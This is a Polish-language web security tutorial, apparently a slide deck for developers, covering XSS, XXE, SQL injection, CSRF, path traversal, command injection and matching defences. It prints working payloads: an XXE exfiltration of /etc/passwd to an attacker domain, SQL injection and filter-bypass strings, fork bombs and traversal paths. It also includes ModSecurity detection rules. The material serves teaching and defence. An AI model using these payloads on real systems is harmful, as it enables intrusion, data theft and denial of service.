


"What do Linked In, Target, Yahoo, Sony and Adobe all have in common?
They have all been hacked, releasing millions of pieces of personal information and costing at least as many dollars."
– Matthew Casperson ("Full Stack Developer")
Moja aplikacja jest bezpieczna.
Po co ktoś chciałby włamywać się do mojej aplikacji?
Aplikacje pisane w Javie są bezpieczniejsze niż od tych pisanych w PHP
Zapewniliśmy bezpieczeństwo aplikacji wymuszając całą komunikację po HTTPS.
Ten plik został zabezpieczony w tak zwanym głębokim ukryciu, jak to mówią informatycy.
Programiści często korzystają z online-owych narzędzi jak:
Nie mając żadnej informacji komu i gdzie przekazują te informacje.
Zabawy w niezamówione testy bezpieczeństwa mogą mieć swoje (przykre) prawne następstwa.
The term "Microservice Architecture" has sprung up over the last few years to describe a particular way of designing software applications as suites of independently deployable services.
– Martin Fowler
Architektura mikro serwisów stawia nowe pytania w kwestii bezpieczeństwa:
XSS to obecnie jeden z najpopularniejszych ataków. Uruchamiany jest zawsze w przeglądarce (kliencie) chociaż wstrzyknięcie złośliwego kodu może być po stronie serwera lub klienta.
Sprawnie użyty XSS pozwala:
Problemy z XSS mieli: MySpace, Facebook, Google, FBI, CIA i tysiące innych.
Można wyróżnić 3 podstawowe rodzaje ataków XSS
Występuje gdy aplikacja (serwer) wykorzystuje dane bezpośrednio z parametrów. Atakujący podrzuca link osobie atakowanej (email, skype, alias), która po kliknięciu dostanie treść z wstrzykniętym kodem.
Załóżmy, że wyszukiwarka na stronie jest podatna na XSS
 Można to wykorzystać do ataku:
http://www.example.com/search.html?q=<script>alert('hacked')</script>
Mówimy o Stored XSS gdy złośliwie wstrzyknięty kod jest przechowywany i serwowany użytkownikom przez samą aplikację.
Przykład: Atakujący użył formularza dodawania komentarzy by wstrzyknąć i zapisać swój kod, który potem zostanie wysłany do pozostałych użytkowników odwiedzających komentowany artykuł.
Ta odmiana XSS wykorzystuje podatności w kodzie po stronie klienta (przeglądarki) w odróżnieniu od Reflected XSS i Stored XSS które traktujemy jako problemy po stronie serwera.
W swoim działaniu jest podobny do Reflected XSS z tą różnicą, że złośliwy kod nie jest przetwarzany przez serwer a jedynie odsyłany do przeglądarki (często nie jest wysyłany do serwera). Zapobieganie tym atakom odbywa się głównie w kodzie JavaScript.
<script> while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } </script>
<a href="#" onload="function() { while (true) { var w = window.open(); w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML); } }">XSS fork bomb</a>
Przejęcie komputera za pomocą XSS-a?
ESAPI.encoder()
Przykład użycia OWASP HTML Sanitizer:
PolicyFactory policy = new HtmlPolicyBuilder() .allowElements("a") .allowUrlProtocols("https") .allowAttributes("href").onElements("a") .requireRelNofollowOnLinks() .build(); String safeHTML = policy.sanitize(untrustedHTML);
Dla cookie reprezentującego ID sesji warto ustawić opcję httpOnly na
true by przeglądarka zablokowała skryptom dostęp do jego wartości:
Cookie cookie = getMyCookie("myCookieName"); cookie.setHttpOnly(true);
<!--Since JEE6, we can use web.xml to secure session cookies --> <session-config> <cookie-config> <http-only>true</http-only> </cookie-config> </session-config>
eval()
X-Content-Security-Policy). Warto sprawdzić wsparcie w różnych
przeglądarkach (http://caniuse.com/#search=CSP)
Content-Security-Policy: script-src 'self' https://apis.google.com
Content-Security-Policy: default-src 'self'; https://apis.google.com; report-uri /reportsConsumer;
{
"csp-report": {
"document-uri": "http://mypage.org/index.html",
"referrer": "http://badguy.com/",
"blocked-uri": "http://badguy.com/malicious.js",
"violated-directive": "script-src 'self' https://apis.google.com",
"original-policy": "script-src 'self' https://apis.google.com; report-uri http://mypage.org/reportsConsumer"
}
}
Content-Security-Policy-Report-Only: default-src 'self'; https://apis.google.com; report-uri /reportsConsumer;
Cross-origin resource sharing (w skrócie CORS) – mechanizm umożliwiający współdzielenie zasobów pomiędzy serwerami znajdującymi się w różnych domenach. Ściślej rzecz biorąc chodzi o możliwość wykonywania żądań AJAX między takimi serwerami przy zachowaniu pewnych ograniczeń co do dopuszczalnego źródła żądania.
– https://pl.wikipedia.org/wiki/Cross-Origin_Resource_Sharing
Atak polegający na przewidywaniu identyfikatora sesji jaki wygenerował lub wygeneruje serwer. Podatne mogę być własne implementacje zarządzania sesją w tym mechanizm trwałej sesji (persistent session, "remember me").
Wszędzie tam gdzie identyfikator jest generowany na podstawie danych, jest zbyt mało losowy lub za krótki, może pojawić się podatność na tego typu atak.
Poniższe identyfikatory nie gwarantują bezpieczeństwa sesji:
Cookie: JSESSIONID=marcin Cookie: JSESSIONID=10225362 Cookie: JSESSIONID=sw2r1 Cookie: JSESSIONID=bWFyY2luLTE0NDg3OTcyMzE%3D Cookie: JSESSIONID=202cb962ac59075b964b07152d234b70
Atak ten polega na użyciu identyfikatora sesji który został prawidłowo wygenerowany dla innego użytkownika. Istnieje kilka realizacji tego ataku:
Session Fixation to wykorzystanie podatności mechanizmu zarządzania sesjami, który nie zmienia identyfikatora sesji przy rozpoczęciu nowej sesji (np. po prawidłowym logowaniu się do systemu) a korzysta z już istniejącego.
Atak ten można przeprowadzić na kilka sposób:
Atak XML XXE to atak ukierunkowany na parsery XML które przetwarzając dokument akceptują nawiązania do zewnętrznych elementów w DTD (domyślna konfiguracja wielu parserów).
<?xml version="1.0" encoding="ISO-8859-1"?> <!DOCTYPE foo [ <!ELEMENT foo ANY > <!ENTITY xxe SYSTEM "file:///etc/passwd" >]> <foo>&xxe;</foo>
/dev/urandom/
Wysłany dokument:
<!ELEMENT foo ANY > <!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % dtd SYSTEM "http://abcd.dns.attackers.com/file.dtd"> %dtd;]>
Dokument file.dtd na zdalnym serwerze:
<!--?xml version="1.0" encoding="ISO-8859-1"?--> <!ENTITY % all "<!ENTITY send SYSTEM 'gopher://abcd.dns.attackers.com:443/xxe?%file;'>"> %all;
Dokładny opis: http://foxglovesecurity.com/2015/10/26/car-hacking-for-plebs-the-untold-story/
Atak DoS na parsery XML (znany też jako "XML Bomb" lub "Exponential Entity Expansion attack").
<?xml version="1.0"?> <!DOCTYPE lolz [ <!ENTITY lol "lol"> <!ELEMENT lolz (#PCDATA)> <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;"> <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;"> <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;"> <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;"> <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;"> ]> <lolz>&lol9;</lolz>
Atak podobny do Billion Laughs, z tym że zamiast wielokrotnie zagnieżdżonej struktury używamy powtórzenia dużych elementów. Pozwala to obejść ograniczenia ilości zagnieżdżeń.
<?xml version="1.0"?> <!DOCTYPE kaboom [ <!ENTITY a "aaaaaaaaaaaaaaaaaa..50kB..aaa"> ]> <kaboom>&a;&a;&a;&a;&a;&a;&a;&a;&a;...50k...</kaboom>
https://docs.python.org/2.7/library/xml.html#xml-vulnerabilities
| kind | sax | etree | minidom | pulldom | xmlrpc |
|---|---|---|---|---|---|
| billion laughs | Yes | Yes | Yes | Yes | Yes |
| quadratic blowup | Yes | Yes | Yes | Yes | Yes |
| external entity expansion | Yes | No | No | Yes | No |
| DTD retrieval | Yes | No | No | Yes | No |
| decompression bomb | No | No | No | No | Yes |
Na ataki XMLem podatne są parsery dla praktycznie wszystkich języków (Java, .NET, Python, PHP, platformy mobilne itd.), jednakże wiele z nich można skonfigurować tak by nie rozwiązywała zewnętrznych elementów bądź zagnieżdżonych definicji w DTD.
Można też całkowicie pozbyć się DTD zanim dokument XML zostanie przekazany do parsera.
Jeśli nasza aplikacja buduje zapytanie odpowiedzialne za logowanie użytkowników w ten sposób:
String sql = "SELECT userId FROM users WHERE login='" + login + "' AND password='" + pass + "'";
to wysyłając parametry:
login=admin'-- pass=cokolwiek
efektywnie wygenerujemy zapytanie:
SELECT userId FROM users WHERE login='admin'-- AND password='cokolwiek'
Badając parametr typu string:
www.example.com/showNews.php?type=sport
Można spróbować:
www.example.com/showNews.php?type=sport'
a potem
www.example.com/showNews.php?type=sport''
Czasami taki test może skończyć się niepowodzeniem ze względu na błędy JS. Może to jednak oznaczać potencjalną podatność na XSS (JS injection). Obejściem problemu może być:
www.example.com/showNews.php?type=sport%27%27
Gdy parametr jest liczbą:
www.example.com/showPage.php?id=5
Sprawdźmy:
www.example.com/showPage.php?id=6-1
Można też tak:
www.example.com/pages/6-1/show
Uwaga – to nie zadziała:
www.example.com/showPage.php?id=4+1
Obejście:
www.example.com/showPage.php?id=4%2B1
Znaki specjalne w url:
+ - zamiana na spacje
# - anchor, nie wysyłane do serwera
& - rozdziela parametry
%23 - Zakodowany znak #
%0A - Zakodowana nowa linia
Komentarze w SQL:
--
#
/*
Atakujący musi poznać strukturę części zapytania jakie jest wykonywane przed fragmentem podatnym na SQLi. Chodzi tutaj głównie o:
www.example.com/showPage.php?id=5 order by 3 -- www.example.com/showPage.php?id=5 order by 7 -- www.example.com/showPage.php?id=5 order by 12 --
www.example.com/showPage.php?id=-1 union select 1,2,3,4,5,6,7,8,9,10 --
www.example.com/showPage.php?id=-1 union select 1,2,3,4,version(),6,7,8,9,10 --
W podobny sposób można poznać login użytkownika DB (user,
current_user, user()), nazwę schematu (current_database(), database())
i serwera (name, instance_name).
Funkcje i sposób odkrycia tych danych są zależne od bazy danych. Dostępne są porównania tego typu funkcji dla różnych baz:
W czasie pracy na zapytaniem może przydać się szybki dostęp do różnych silników baz danych http://sqlzoo.net
Oracle:
-- List tables SELECT owner, table_name FROM all_tables; -- List columns SELECT column_name FROM all_tab_columns WHERE table_name = 'foo' AND owner = 'bar';
MySQL:
-- List tables SELECT table_schema, table_name FROM information_schema.tables; -- List columns SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'foo' AND table_schema = 'bar';
Wiedząc jaka jest struktura bazy danych atakujący może zacząć zasadniczy atak i rozpocząć pobieranie danych, gdzie z reguły najcenniejszą są dane o użytkownikach i ich hasłach.
Jeśli hasła użytkowników zapisane są w czystym tekście albo tylko zahaszowane prostą funkcją (MD5) to w tym momencie atakujący ma już pełną kontrolę nad aplikacją.
Mając hashe haseł potrzebujemy poznać hasła na podstawie których zostały utworzone:
MD5, SHA1 z użyciem GPU:
Hasła systemowe, bazy danych
| Algorithm | Total cracked | |
|---|---|---|
| 1 | MD5 | 27,220,696 |
| 2 | SHA1 | 3,169,684 |
| 3 | MySQL4.1/MySQL5 | 1,365,423 |
| 4 | Double MD5 | 1,150,687 |
| 5 | NTLM | 1,127,773 |
| 6 | md5(sha1($pass)) | 436,848 |
| 7 | MD4 | 254,355 |
| 8 | md5(md5(md5($pass))) | 188,944 |
| 9 | sha1(md5($pass)) | 120,828 |
| 10 | sha1(sha1($pass)) | 14,725 |
| 11 | sha1(sha1(sha1($pass))) | 3,078 |
NVIDIA GeForce 8800 Ultra can calculate more than 200 million hashes per second
Porównajmy dwa alfabety:
| A1 | Ilość kombinacji | Czas | A2 | Ilość kombinacji | Czas |
|---|---|---|---|---|---|
| 36^1 | 36 | ~ 0s | 62^1 | 62 | ~ 0s |
| 36^2 | 1 269 | ~ 0s | 62^2 | 3 844 | ~ 0s |
| 36^3 | 46 656 | ~ 0s | 62^3 | 238 328 | ~ 0s |
| 36^4 | 1 679 616 | ~ 0s | 62^4 | 14 776 336 | ~ 0s |
| 36^5 | 60 466 176 | 0.3s | 62^5 | 916 132 832 | 4.5s |
| 36^6 | 2 176 782 336 | 11s | 62^6 | 56 800 235 584 | 284s |
| 36^7 | 78364164096 | 391s | 62^7 | 3.5216146e+12 | 17608s (5h) |
| 36^8 | 2.8211099e+12 | 14105s (4h) | 62^8 | 2.1834011e+14 | 1091700s (303h) |
Wszystkie znaki ASCII z podstawowego zakresu => 95 znaków. Maksymalny czas łamania hasła 8 znakowego: 9214h (rok).
Cluster 25 Radeonów ma przepustowość na sekundę:
Duża część dokumentacji na temat SQLi pokazuje przykłady gdzie wstrzyknięty kod dopełnia główne zapytanie ale także dodaje kolejne zapytania, z reguły modyfikujące dane lub bazę:
SELECT * FROM users WHERE login = 'x'; DROP TABLE users; SELECT '1'
Obecnie większość bibliotek do obsługi baz danych nie pozwala by w ramach zapytania zostały wykonane dodatkowe zapytania a w szczególności o różnym typie. Stąd ten atak wydaje się być bardziej teoretyczny niż praktyczny
Czasami mamy do czynienia z sytuacją, że wynik zapytania nie jest bezpośrednio wyświetlany w aplikacji ale zależy od niego logika przetwarzania strony.
Przykłady:
SELECT nie czytając wartości kolumn,
a jedynie sprawdzając czy zwraca ono jakieś wiersze lub nie. Na tej
podstawie może np. wyświetlać na wynikowej stronie dedykowany
komunikat („Masz nieprzeczytane wiadomości”)
EXISTS/NOT EXISTS
Możemy też spotkać przypadek, gdzie zapytanie do którego są przekazane parametry stanowią część większego zapytania:
SELECT *
FROM table1
WHERE id IN ( SELECT id
FROM table2
WHERE param='$param')
W takiej sytuacji ominięcie problemu składni zapytania po wstrzyknięciu kodu nie zawsze może być proste czy wykonalne.
Wstrzyknięty kod sprowadza się do odpowiedzi na pytanie (Tak/Nie)
SELECT * FROM orders WHERE id = 5 AND 1 = (CASE WHEN condition THEN 1 else 0 END) limit 1;
SELECT count(*)
FROM orders
WHERE status = 'pending'
AND substring(@@version, 1, 1)=5
O ataku Second Order SQLi mówimy gdy wartość przechowywana w bazie danych zostaje użyta do budowy innego zapytania.
Atak następuje w kilku fazach:
Atakujący tworzy konto użytkownika o nazwie:
x' or user_id=user_id --
Jeśli aplikacja buduje dowolne zapytanie z wykorzystaniem loginu:
SELECT *
FROM orders
WHERE user_id='$userLogin'
To atakujący zobaczy więcej niż powinien.
Jaki będzie wynik?
SELECT 'a' = 'a' t1, 'a' = 'A' t2, 'a' = 'a ' t3, 'a' = 'A ' t4, 'a ' = 'a' t5, 'a ' = 'a ' t6, ' a' = 'a' t7, 'a' = ' a' t8, 'a' = ' a ' t9;
SELECT 'a' = 'a' t1, 'a' = 'A' t2, 'a' = 'a ' t3, 'a' = 'A ' t4, 'a ' = 'a' t5, 'a ' = 'a ' t6, ' a' = 'a' t7, 'a' = ' a' t8, 'a' = ' a ' t9;
+----+----+----+----+----+----+----+----+----+ | t1 | t2 | t3 | t4 | t5 | t6 | t7 | t8 | t9 | +----+----+----+----+----+----+----+----+----+ | 1 | 1 | 1 | 1 | 1 | 1 | 0 | 0 | 0 | +----+----+----+----+----+----+----+----+----+
Jaki będzie wynik?
SELECT 'a' = 'a' t1, 'a' = 'A' t2, 'a' = 'a ' t3, 'a' = 'A ' t4, 'a ' = 'a' t5, 'a ' = 'a ' t6, ' a' = 'a' t7, 'a' = ' a' t8, 'a' = ' a ' t9;
SELECT 'a' = 'a' t1, 'a' = 'A' t2, 'a' = 'a ' t3, 'a' = 'A ' t4, 'a ' = 'a' t5, 'a ' = 'a ' t6, ' a' = 'a' t7, 'a' = ' a' t8, 'a' = ' a ' t9;
+----+----+----+----+----+----+----+----+----+ | t1 | t2 | t3 | t4 | t5 | t6 | t7 | t8 | t9 | +----+----+----+----+----+----+----+----+----+ | 1 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | 0 | +----+----+----+----+----+----+----+----+----+
SELECT CASE WHEN 'a' = 'a' THEN 1 ELSE 0 END t1, CASE WHEN 'a' = 'A' THEN 1 ELSE 0 END t2, CASE WHEN 'a' = 'a ' THEN 1 ELSE 0 END t3, CASE WHEN 'a' = 'A ' THEN 1 ELSE 0 END t4, CASE WHEN 'a ' = 'a' THEN 1 ELSE 0 END t5, CASE WHEN 'a ' = 'a ' THEN 1 ELSE 0 END t6, CASE WHEN ' a' = 'a' THEN 1 ELSE 0 END t7, CASE WHEN 'a' = ' a' THEN 1 ELSE 0 END t8, CASE WHEN 'a' = ' a ' THEN 1 ELSE 0 END t9 FROM dual
SELECT CASE WHEN 'a' = 'a' THEN 1 ELSE 0 END t1, CASE WHEN 'a' = 'A' THEN 1 ELSE 0 END t2, CASE WHEN 'a' = 'a ' THEN 1 ELSE 0 END t3, CASE WHEN 'a' = 'A ' THEN 1 ELSE 0 END t4, CASE WHEN 'a ' = 'a' THEN 1 ELSE 0 END t5, CASE WHEN 'a ' = 'a ' THEN 1 ELSE 0 END t6, CASE WHEN ' a' = 'a' THEN 1 ELSE 0 END t7, CASE WHEN 'a' = ' a' THEN 1 ELSE 0 END t8, CASE WHEN 'a' = ' a ' THEN 1 ELSE 0 END t9 FROM dual
+----+----+----+----+----+----+----+----+----+ | T1 | T2 | T3 | T4 | T5 | T6 | T7 | T8 | T9 | |----+----+----+----+----+----+----+----+----| | 1 | 0 | 1 | 0 | 1 | 1 | 0 | 0 | 0 | +----+----+----+----+----+----+----+----+----+
Często programiści piszą swoje własne, "domowe" sposoby zapobiegania SQLi. Dużą cześć można łatwo obejść:
- ?id=-1/**/union/**/select/**/… - ?id=-1/*ab*/union/*cd*/select/*ef*/… - ?id=-1 union … where login = char (77,121,83,81,76) - ?id=-1 union … where login = concat (char(77), char(121)) - (mysql) ?id=-1 union … where login = 0×414243
#Prevent SQL injection in cookies SecFilterSelective COOKIE_VALUES "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300011,rev:1,severity:2,msg:'Generic SQL injection in cookie'" #Prevent SQL injection in UA SecFilterSelective HTTP_USER_AGENT "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300012,rev:1,severity:2,msg:'Generic SQL injection in User Agent header'" # Generic filter to prevent SQL injection attacks # Understand that all SQL filters are very limited and are very difficult to prevent false postives and negatives. # Please report false positives/negatives to mike@gotroot.com SecFilter "((select|grant|delete|insert|drop|alter|replace|truncate|update|create|rename|describe)[[:space:]]+[A-Z|a-z|0-9|*| |,]+[[:space:]]+(from|into|table|database|index|view)[[:space:]]+[A-Z|a-z|0-9|*| |,]|UNION SELECT.*'.*'.*,[0-9].*INTO.*FROM)" "id:300013,rev:1,severity:2,msg:'Generic SQL injection protection'"
PreparedStatements
StoredProcedures
Czy możemy być pewni co do odporności na SQLi gdy do komunikacji z bazą danych używamy:
String userName = request.getParameter("userName"); PreparedStatement ps = connection.prepareStatement("SELECT * FROM users WHERE userName = '" + userName + "'");
String userName = request.getParameter("userName"); PreparedStatement ps = connection.prepareStatement("SELECT * FROM users WHERE userName = ?"); ps.setString(1, userName);
String userName = request.getParameter("userName"); Query q = session.createQuery("from User u where u.userName ='" +userName "'");
String userName = request.getParameter("userName"); Query q = session.createQuery("from User u where u.userName = :userName"); q.setParameter("userName", userName);
sqlStmt := 'SELECT id FROM users WHERE userName = ''' || p_username || ''''; EXECUTE IMMEDIATE sqlStmt INTO userId;
sqlStmt := 'SELECT id FROM users WHERE userName = :1';
EXECUTE IMMEDIATE sqlStmt USING p_userName;
Jeśli wstrzyknięty kod powoduje wykonanie zasobożernego zapytania, możemy doprowadzić do sytuacji, że baza danych będzie zbyt zajęta naszymi zapytaniami by przetwarzać te prawdziwe. Ponawianie zapytania SDOS wzmacnia działanie, chociaż czasami może wystarczyć pojedyncze zapytanie. SDOS może zostać przeprowadzony w oparciu o:
x' AND BENCHMARK(9999999,BENCHMARK(999999,BENCHMARK(999999,MD5(NOW()))))=0 OR '1'='1
Jednym z typów SDOS jest atak na zapytania które korzystają z
operatora LIKE. Często piszemy wyszukiwanie w aplikacjach w ten
sposób:
SELECT * FROM news WHERE title LIKE '%Java%'
Z reguły takie zapytania wykonują się bardzo szybko, ale użycie odpowiednio spreparowanych parametrów może sprawić, że to samo zapytanie będzie wykonywać się kilkadziesiąt razy dłużej konsumując wszystkie dostępne zasoby.
%_[^!_%/%a?F%_D)_(F%)_%([)({}%){()}£$&N%_)$*£()$*R"_)][%](%[x])%a][$*"£$-9]_%
%64_[^!_%65/%aa?F%64_D)_(F%64)_%36([)({}%33){()}£$&N%55_)$*£()$*R"_)][%55](%66[x])%ba][$*"£$-9]_%54
_[r/a)_ _(r/b)_ _(r-d)_
%n[^n]y[^j]l[^k]d[^l]h[^z]t[^k]b[^q]t[^q][^n]!%
%_[aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[! -z]@$!_%
Elementy aplikacji związane z logowaniem, odzyskiwaniem hasła, nazwy konta itp nie powinny ułatwiać znajdowania nazw istniejących użytkowników. Błędne logowanie do aplikacji powinno zwrócić komunikat:
Użytkownik lub hasło nie są prawidłowe
zamiast
Podany użytkownik nie istnieje
Plik robots.tx wchodzący w skład mechanizmu Robots Exclusion
Protocol może być żródłem informacji o ukrytych zasobach. Niezależnie
od niego można sprawdzić adresy takie jak:
User-agent: * Disallow: /administrator/ Disallow: /cache/ Disallow: /components/ Disallow: /images/ Disallow: /includes/ Disallow: /installation/ Disallow: /language/ Disallow: /libraries/ Disallow: /media/ Disallow: /modules/ Disallow: /plugins/ Disallow: /templates/ Disallow: /tmp/ Disallow: /xmlrpc/ Disallow: /pliki/
Możemy być pewni że atakujący (bądź skrypt którego użyje) będzie szukał ukrytych, potencjalnie ciekawych zasobów jak:
/logs/
/version
/phpMyAdmin
/probe
/manager/html
/swagger
/monitoring
/admin
/admin.jsp~
/admin.jsp.bak
Dostępne są gotowe listy nazw zasobów do przeszukania:
największa zawiera ponad 1.2M wpisów
index, images, download, 2006, news, crack, serial, warez, full, 12, contact, about, search, spacer, privacy, 11, logo, blog, new, 10, cgi-bin, .git, .svn, .hg, .bzr, faq, rss, home, img, default, 2005, products, sitemap, archives
Przekazywanie do aplikacji identyfikatorów z bazy danych w dodatku połączone z niewłaściwą kontrolą dostępu może prowadzić do ujawnienia danych, mimo że np zabezpieczyliśmy kod przed SQLi.
Przykłady:
http://wklej.org/id/{liczba}/
error_reporting(E_ALL);
define('API_KEY', 'aa7xxxxx');
define('API_SECRET', '2adxxxxxxxxxxxxxxxxxxxxxxxxxxxxx');
define('API_VERSION', 1);
$SimPayLibs = 'SimPay.class.php';
Prosty atak pozwalający na dostęp do treści, których właściciel raczej nie miał ochoty nam udostępnić
www.example.com/showPage.php?p=1.html
Łatwo można wyjść do dowolnego miejsca:
www.example.com/showPage.php?p=../../../../../../../../etc/passwd
Kolejny prosty atak, który wykorzystuje lukę spowodowaną przez fakt uruchamiania komend systemowych wraz z parametrami przekazanymi wraz z requestem.
Jak dodawać swoje komendy?
%0A)
;
&&
|
Atak typu DoS który można wykonać w ramach OS command injection. Polega on na uruchomieniu kodu, którego jedynym zadaniem jest tworzenie kopii samego siebie.
%0|%0
:(){ :|:& };:
CSRF (CSRF, XSRF, session riding, one-click attack) to atak w którym atakujący wymusza w przeglądarce wykonanie request-ów w kontekście innego użytkownika. W ataku tym nie chodzi o ty by zmieniać treści stron, lecz by wykorzystać uprawnienia użytkowników zalogowanych do atakowanej aplikacji. Najczęściej polega on na podrzuceniu spreparowanych linków lub wstrzyknięcie ich do innych serwisów.
Przykładowe cele ataków:
Cookies
(jako jedyna metoda autentykacji użytkownika)
GET
Referer
Technika bardzo podobna do CSRF z tym że kod zmuszający przeglądarkę do wykonania nieautoryzowanej akcji zostaje umieszczony wewnątrz podatnego systemu.
<img src="http://www.example.com/admin/addUser.php?u=admin2&p=pass" />
Rodzina ataków Injection jest bardzo liczna:
Można założyć że jeśli aplikacja używa danych wprost od użytkownika w jakimkolwiek języku interpretowanym czy skrypcie to będzie podatna na atak typu Injection.
W internecie dostępne są słowniki które mogę znacząco poprawić skuteczność ataków brute-force:
Przeglądając nagłówki HTTP jaki i sekcję META w standardowej odpowiedzi serwera:
curl -v www.foobar.com wget --server-response www.foobar.com
Można bez wysiłku dostać informacje:
Server: Apache/2.2.16 (Debian) X-Powered-By: PHP/5.3.3-7+squeeze15 Server: Microsoft-IIS/8.5 X-AspNet-Version: 4.0.30319 MicrosoftSharePointTeamServices: 16.0.0.5312
czy też:
<meta name="generator" content="Joomla! 1.5 - Open Source Content Management" /> <meta name="generator" content="Incomedia WebSite X5 Professional 12.0.7.26 - www.websitex5.com" /> <meta name="generator" content="WordPress 4.5.2"/>
Warning: mysql_connect() [function.mysql-connect]: Access denied for user 'xxxxx'@'localhost' (using password: YES) in /home/users/xxxxx/public_html/xxxxx.com.pl/inc/mysql_connect.php on line 2 Nie mozna polaczyc z serwerem mysql!
Fatal error: Uncaught exception 'PDOException' with message 'SQLSTATE[HY000]
[2003] Can't connect to MySQL server on 'xxx.pl' (113)' in
/home/users/xxx/private_html/framework/Db/PDO.php:39 Stack trace: #0
/home/users/xxx/private_html/framework/Db/PDO.php(39):
PDO->__construct('mysql:host=xxx', 'admin_xxx', 'xyz123') #1
/home/users/xxx/private_html/framework/Controller/Application.php(65):
Db_PDO->__construct() #2
/home/users/xxx/private_html/xxx/Controller/Base.php(61):
Controller_Application->__construct(Object(Controller_Front)) #3
/home/users/xxx/private_html/framework/Controller/Front.php(93):
Controller_Base->__construct(Object(Controller_Front)) #4
/home/users/xxx/public_html/xxx/index.php(61): Controller_Front->run() #5
{main} thrown in /home/users/xxx/private_html/framework/Db/PDO.php on line 39
Jedna ze stron poświęconych bezpieczeństwu webaplikacji zaprezentowała to:
Warning: Table './xxxxx/sessions' is marked as crashed and should be repaired query: SELECT u.*, s.* FROM users u INNER JOIN sessions s ON u.uid = s.uid WHERE s.sid = '4f21e1xxxxxxxxxxxxxxxxxxxxxxxxxx' in /home/xxxxx/public_html/includes/database.mysqli.inc on line 1xx Warning: session_start(): Cannot send session cache limiter - headers already sent (output started at /home/xxxxx/public_html/includes/database.mysqli.inc:134) in /home/xxxxx/public_html/includes/bootstrap.inc on line 1xxx Warning: Cannot modify header information - headers already sent by (output started at /home/xxxxx/public_html/includes/database.mysqli.inc:1xx) in /home/xxxxx/public_html/sites/all/libraries/bad-behavior/bad-behavior/screener.inc.php on line xxx
HTTP Status 500 - An exception occurred processing JSP page /xxx.jsp at line 50 type Exception report message An exception occurred processing JSP page /xxx.jsp at line 50 description The server encountered an internal error that prevented it from fulfilling this request. exception org.apache.jasper.JasperException: An exception occurred processing JSP page /xxx.jsp at line 50 47: <div class="a"> 48: <div class="b">c</div> 49: <div class="d"> 50: <a href="<%=path %>/e.view?id=<%=x.getId() %>">x</a> | 51: <a href="<%=path %>/e.view?id=1&xyzId=<%=x.getId() %>">zz1</a> | 52: <a href="<%=path %>/e.view?id=2&xyzId=<%=x.getId() %>">zz2</a> | 53: <a href="<%=path %>/e.view?id=3&xyzId=<%=x.getId() %>">zz3</a> |
400 Bad Request
curl -ivs --raw -X POST -H "Content-Length: x" http://www.server.com
404 Not Found
curl -ivs --raw http://www.server.com/thisPageDoesntExist
403 Forbidden (405 Method Not Allowed)
curl -ivs --raw -X DELETE http://www.server.com/someResource
408 Request Timeout
telnet www.server.com 80 GET / HTTP/1.1 (wait some time)
500 Internal Server Error
curl -ivs --raw -X GET http://www.server.com?q=something&page=nonNumber
curl -ivs --raw http://www.server.com/%
Biblioteki dostarczające mechanizmy pomagające redukować ryzyko związane z atakami na aplikacji webowe:
C ompletely A utomated P ublic T uring test to tell C omputers and H umans A part
CAPTCHA-e mają szerokie zastosowanie przy poprawie różnych aspektów bezpieczeństwa aplikacji. Pomagają zapobiegać:
O i 0, 1 i l
Ciekawy trick pozwalający odfiltrować request-y pochodzące od spam-botów ("captcha bez captcha-y").
display: none albo
modyfikując rozmiar i położenie)